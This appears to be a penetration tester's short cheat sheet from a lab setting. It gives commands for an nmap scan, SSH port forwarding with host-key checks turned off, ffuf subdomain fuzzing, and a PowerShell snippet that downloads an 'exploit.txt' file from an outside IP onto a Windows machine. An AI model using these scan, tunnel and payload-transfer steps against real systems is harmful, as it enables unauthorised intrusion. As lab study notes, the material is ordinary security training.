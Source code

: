 # Reference

Quick Ctrl+C commands I find useful.

```
nmap -sC -sV -vv -Pn <MACHINE_IP> -oN file.nmap
```

Port forwarding from a remote ip(which here is 192.168.126.52) to my own.

```
sudo ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -N -L 0.0.0.0:80:0.0.0.0:80 student@192.168.126.52 -p 2222
```

Fuzzing subdomains.

```
ffuf -u http://<URL>/ -H "HOST: FUZZ.<URL>" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
```

```
$wc = New-Object System.Net.WebClient 
$wc.DownloadFile("http://192.168.45.232/exploit.txt","C:\Users\student\Downloads\exploit.txt") 
```

